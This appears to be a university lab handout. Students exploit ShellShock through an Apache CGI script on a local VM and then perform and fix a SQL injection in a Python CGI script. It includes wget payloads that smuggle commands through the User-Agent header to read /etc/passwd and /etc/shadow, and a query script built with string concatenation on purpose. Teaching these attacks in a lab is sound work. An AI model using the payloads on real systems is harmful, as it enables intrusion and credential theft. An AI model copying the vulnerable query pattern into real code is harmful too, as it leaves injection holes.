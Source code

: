 
* HTTPd server vulnerabilities

This time we are going to look at some of vulnerabilities of Web servers. In both cases, they are software errors. But each of them is very different.


* Get the virtualbox VM.

For this lab you will run a virtual box virtual machine that you can fully configure as superuser. I have prepared one for you.

Each of the lab machines has a directory =/seng/seng360/=. In it create a directory with your username, and inside a directory called =vm=. For example, for me
it will be called =/seng/seng360/dmg/vm=.

1. Download the following file: http://turingmachine.org/~dmg/temp/vmLab5.tar.bz2. Uncompress it and place it under the =vm= directory you just created.
2. Run virtual box with the command =virtualbox=
3. At this point no virtual box is setup up. Go to /File,Preferences/ and in the /General/ section change the /Default Machine Folder/ to point to the directory
   you created above (in my case =/seng/seng360/dmg/vm=). Leave everything else the same.
4. Now add the virtualbox: Using the menu option /Machine, Add/ select the virtualbox inside the =/seng/seng360/<user>/vm/seng360bare= directory.
5. At this point you main screen should be something like this:

[[file:vmBare.png]]
  

* Configure the virtual machine

Make sure that the following ports are been forwared in the your virtual machine. See:

http://stackoverflow.com/questions/5906441/how-to-ssh-to-a-virtualbox-guest-externally-through-a-host)

| Name | Protocol | host IP | Guest IP | Guest Port |
|------+----------+---------+----------+------------|
| HTTP | TCP      | 3080    |          | 80         |
| SSH  | TCP      | 3030    |          | 22         |


* Start your virtual machine

Once you run the virtual machine you should be able to SSH to the virtual machine using port 3080 in the localmachine, and the webserver will be running in port 3080
You can test both with telnet

#+BEGIN_SRC
telnet localhost 3030
#+END_SRC

and

#+BEGIN_SRC
telnet localhost 3080
#+END_SRC

You can then use ssh to connect to the virtual machine, or you can login into the machine directly.


* Login to the virtual box and change the passwords

| what      | user    | password   |
|-----------+---------+------------|
| user      | user360 | user360    |
|           | root    | root360lab |

* the ShellShock bug

Go to CERT Coordination Center (cert.org)

*Question 1* What is the purpose of the CERT Coordination Center?

*Question 2* What is a CVE?

*Question 3* What are the CVEs that relate to the ShellShock bug?

Find and read Vulnerability Note VU#252743. This note will point you to a RedHat blog where the bug is described.

*Question 4* What are the tests for the vulnerabilities in each of the main two CVEs?

* Test the vulnerability

Given your answer to *Question 4*, check if =bash= is vulnerable (it is).

* Exploiting the vulnerability

** Web server

Your virtual machine is already running Apache on port 80 (port 3080 for this host machine). Apache configuration files are located at =/etc/apache2=

** Enable cgi

Enable =cgid= module. See https://help.ubuntu.com/10.04/serverguide/httpd.html

The documentation on =cgid= is http://httpd.apache.org/docs/current/mod/mod_cgid.html

** Create a script to test cgi

Create a simple "hello world" script in whichever language you choose. Test it. Call this script =test.cgi=. Place it such that http://localhost/test.cgi (if you are in the VM)
or http://localhost:3080/test.cgi (from the host machine) to test it.

If necessary, you can inspect the access/error logs of apache. They are located at =/var/log/apache2=

** Create a bash script

Now that you can run cgi scripts, make a bash script called =test.bash=

#+begin_src bash
#!/bin/bash
echo "Content-type: text/plain"
echo
echo
echo "Hello world"
whoami
echo "End of the world"
#+end_src

Test it.

*Question 5* What user is the one executing the scripts? (see the output of whoami above). Why does apache use that user?

** /etc/passwd and /etc/shadow

read the man page of shadow (man shadow). Inspect the files /etc/passwd and /etc/shadow

 *Question 6* Why does Linux maintain =/etc/shawdow=?

 *Question 7* what is the difference between =/etc/passwd= and =/etc/shadow=

** The attack

Now we can try the attack. Using =wget= run:

#+begin_src bash
wget -O /tmp/output.txt -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost/cgi-bin/test.bash
#+end_src

Test it. What do you get?

*Question 8* Given your knowledge of the vulnerability, explain how the attack works.

** Try again

#+begin_src bash
wget -O /tmp/output.txt -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/shadow" http://localhost/cgi-bin/test.bash
#+end_src

*Question 9* Explain why this attack didn't work.

*Question 10* What is the vulnerability in the /etc/password attack?


** How the attack is passed to bash

Try the same attack on this script. It simply prints the environment variables that are passed to the script.

#+begin_src perl
#!/usr/bin/perl
print "Content-type: text/html\n\n";
foreach $key (keys %ENV) {
print "$key --> $ENV{$key}<br>";
}
#+end_src

*Question 11* In which environment variable passed to the script?

Modify your script attack to try other commands. Try to execute, for example =ls -lR /etc= or =ls -lR /home/=

* Set up a database

Your user =seng360= has a postgres database called =lab5=. Using psql connect to it. Create a table called =test= with the following schema.  

#+begin_src sql
create table test(
   id integer primary key,
   value integer);
#+end_src

Allow anybody =select= to the table =test=:

#+begin_src sql
grant select on test to public;
#+end_src


Insert 10 tuples into the table =test=. The table should looks something like this. Make sure you include a tuple with /id=5/

#+begin_example
lab5=# select * from test ;
 id | value
----+-------
  1 |    10
  2 |    20
  3 |    30
  4 |    40
  5 |    30
  6 |    40
  7 |    30
  8 |    40
  9 |  1030
 10 |  1040
(10 rows)
#+end_example

Create a user called =web= with password =webserver=. See http://www.postgresql.org/docs/9.1/static/app-createuser.html

Test that the user =web= can connect to the database and see the table

#+begin_example
psql -h localhost -U web lab5
#+end_example

* Python and sql

Use the following python script. It should be able to display the tuple with id value equal 5 (make sure there is one in your table).

#+begin_src python
#!/usr/bin/python

import psycopg2

try:
    conn = psycopg2.connect("dbname='lab5' user='web' host='localhost' password=
'webserver'")
except:
    print "I am unable to connect to the database"

cur = conn.cursor()

id = "5"

try:
    cur.execute("""SELECT * from test where id = """ + id)

except:
    print "I can't SELECT from test"


rows = cur.fetchall()
print "<h2>Data</h2>"
print "<table border=1>"
for row in rows:
    print "<tr><td>", row[0], '</td><td>', row[1], '</td></tr>'

print "</table>"

#+end_src

** Create a cgi-script

Convert this program into a cgi-script that uses POST method to set the value of =id=. It respond to this request:

#+begin_example
http://localhost/cgi-bin/sql.py?id=5
#+end_example

** An injection attack

Try now the following URL:

#+begin_example
http://localhost/cgi-bin/sql.py?id=5%20or%20TRUE
#+end_example

*Question 12* What is the result of this query?
*Question 13* Why? (hint, decode the =%20= (it is a character in hexadecimal) then follow the value of id.

** Fix your script

Learn how to protect your script. Hint: lookup /prepared statements/ in Psycogp2

*Question 14* How is the sql injection vulnerability removed?

* What to submit

- Submit your answers to the questions above in a simple text file.
- Submit your python program where you fix the SQL vulnerability
